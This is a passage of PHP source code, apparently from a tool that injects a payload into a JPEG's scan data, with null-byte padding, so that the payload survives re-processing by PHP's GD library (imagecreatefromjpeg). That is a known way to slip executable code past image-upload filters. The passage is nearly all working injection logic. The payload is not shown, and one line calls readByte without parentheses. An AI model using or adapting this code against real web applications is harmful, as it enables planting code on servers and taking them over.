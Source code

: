```php
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

```